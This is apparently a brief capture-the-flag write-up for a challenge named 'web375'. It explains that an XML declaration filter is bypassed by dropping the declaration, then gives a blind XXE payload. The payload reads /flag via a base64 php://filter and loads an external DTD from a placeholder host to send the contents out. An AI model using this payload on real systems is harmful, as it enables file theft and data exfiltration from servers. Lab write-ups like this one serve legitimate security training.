


# web375

仍是不回显
<\?xml version="1\.0"被过滤,直接不写声明或多加空格
```
<!DOCTYPE root [
        <!ELEMENT root ANY >
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
        <!ENTITY % dtd SYSTEM "http://x.x.x.x/test.dtd">
        %dtd;
        %send;
        ]>
<root></root>
```
